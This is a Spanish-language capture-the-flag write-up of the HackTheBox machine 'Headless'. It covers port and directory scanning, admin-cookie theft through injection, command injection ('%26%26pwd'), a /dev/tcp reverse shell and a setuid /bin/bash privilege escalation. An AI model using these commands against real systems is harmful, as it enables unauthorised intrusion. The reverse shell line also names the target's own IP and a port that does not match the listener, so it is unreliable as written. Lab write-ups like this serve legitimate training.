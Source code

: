 ```yaml
---
title: Headless
layout: default
parent: HackTheBox
---
```


# Headless
{:.no_toc}

---

1. List
{:toc}

---

## Reconocimiento

La máquina tiene la IP 10.10.11.8, procedemos a escanearla con nmap, primero comprobando que tenemos conexión con:

```bash
nmap 10.10.11.8 -sn
```

Y podemos ver que esta en línea

![](/assets/images/Imagenes/Pasted image 20240615182604.png)

Ahora haremos un escaneo mas profundo de los puertos TCP que tiene abiertos para recabar mas información. Además le diremos que nos vaya informando sobre lo que vaya encontrando, evitando la resolución de nombres y descubrimiento de hosts, todo en un archivo grepeable llamado **allPorts**.

```bash
sudo nmap -p- -sS --open --min-rate 5000 10.10.11.8 -vvv -n -Pn -oG allports
```

Con esto nos descubre dos puertos, el 22 (SSH) y el 5000 que segun el escaneo nos muestra que es upnp (Universal Plug and Play).

![](/assets/images/Imagenes/Pasted image 20240615183049.png)

Al intentar entrar desde el navegador nos muestra una página:

![](/assets/images/Imagenes/Pasted image 20240615183112.png)

Si pulsamos nos lleva a una página de contacto:

![](/assets/images/Imagenes/Pasted image 20240615183138.png)

Al no ver nada mas interesante pruebo con un escaneo de directorios con gobuster.

```bash
gobuster dir -u http://10.10.11.8:5000/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php,txt
```

Veo que ademas de support encuentra el directorio dashboard

![](/assets/images/Imagenes/Pasted image 20240615185227.png)

Al intentar entrar nos dice que no tenemos las credenciales necesarias:

![](/assets/images/Imagenes/Pasted image 20240615185305.png)

En las cookies podemos ver que están guardados los datos de administrador:

![](/assets/images/Imagenes/Pasted image 20240615190453.png)

## Explotación

A partir de este punto recurro a una WT, en donde se muestra que a través de inyección de código se puede llegar a ver la cookie de administrador interceptando la petición de la página support con burpsuit.

![](/assets/images/Imagenes/Pasted image 20240615191411.png)

Con esto conseguimos que nos muestre la cookie montando antes un servidor python en nuestra maquina para que nos llegue la petición.

![](/assets/images/Imagenes/Pasted image 20240615191451.png)

Al cambiar la cookie podremos acceder a otro panel de administrador.

![](/assets/images/Imagenes/Pasted image 20240615191603.png)

Parece ser que se generan reportes, por lo que miramos con burpsuit como es la petición.

En la petición se envía una variable con el valor del día introducido. Si probamos a inyectar código para sacar por ejemplo el directorio actual de la pagina añadiendo **%26%26pwd** nos muestra que estamos en **/home/dvir/app**, por lo que es capaz de interpretar código a través de la variable.

Con esto podemos crear una reverse shell para ganar acceso a la maquina, haciendo que la maquina victima busque un recurso en el que hayamos introducido la reverse shell.

```bash

shell.sh 

/bin/sh -i >& /dev/tcp/10.10.11.8/443 0>&1
```

Además le daremos permisos para ejecución.

El siguiente paso es importante tener el servidor de python o de cualquier tipo para que a la hora de la inyección que la maquina vulnerable acceda al recurso pueda acceder a el y ejecutarlo.

Para ello nos pondremos en escucha por el puerto 1234 con netcat y en la petición le pediremos que acceda al recurso shell.sh.

![](/assets/images/Imagenes/Pasted image 20240615194441.png)\

![](/assets/images/Imagenes/Pasted image 20240615194456.png)

Con esto ya estaráamos dentro de la máquina. La bandera de usuario esta en el directorio principal.

## Escalada de privilegios

![](/assets/images/Imagenes/Pasted image 20240615194550.png)

Para la escalada de privilegios crearemos un archivo con

```bash
echo "chmod u+s /bin/bash" > hack.sh
bash-5.2$ chmod +x hack.sh
chmod +x hack.sh
```

Con esto crearemos un script que al ejecutarse otorgara el bit de setuid al binario **/bin/bash**, y ejecutar comandos como usuario root.

Al ejecutar el binario ya tendremos privilegios de superusuario

![](/assets/images/Imagenes/Pasted image 20240615200154.png)

Una vez dentro podemos buscar en el directorio root donde estará la bandera de root.